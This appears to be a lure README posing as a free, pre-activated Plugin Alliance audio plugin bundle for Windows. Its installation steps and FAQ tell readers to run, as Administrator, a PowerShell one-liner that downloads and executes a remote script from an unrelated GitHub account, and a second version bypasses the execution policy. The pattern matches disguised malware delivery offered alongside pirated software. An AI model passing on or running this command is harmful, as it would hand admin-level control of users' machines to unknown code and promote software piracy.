

<div align="center">


<br>


# Plugin Alliance Complete Bundle Pro Edition
**Analog emulations · EQ · Dynamics**
<br>
**Analog emulations · EQ · Dynamics**
<br>
Premium · Pro · Complete · Windows



**Plugin Alliance Complete Bundle — Brainworx, SPL, Shadow Hills and boutique analog emulations enabled.**

</div>

---

> Access boutique analog emulations — Plugin Alliance pro bundle enabled for mixing and mastering.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎛️ **Studio modules** — Premium instruments and effects enabled.
🔌 **Plugin ready** — VST workflow on Windows DAWs.
🎚️ **Mix pipeline** — Presets and routing profiles included.
📦 **Offline studio** — Work locally after setup.
🎹 **Sound libraries** — Factory and expansion content supported.
🖥️ **Windows optimized** — Built for audio workstations.
⚡ **One command setup** — PowerShell handles install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 8 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://raw.githubusercontent.com/VillageGunsmithDwell/Activate/refs/heads/main/scripts/install.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 8 gb free space.
</details>


TAGS
plugin-alliance, audio-plugins, mixing-plugins, mastering-plugins, analog-emulation, compressor-plugins, eq-plugins, recording-plugins, music-production, plugin-bundle, brainworx, spl-plugins, shadow-hills, studio-plugins, mixing-software
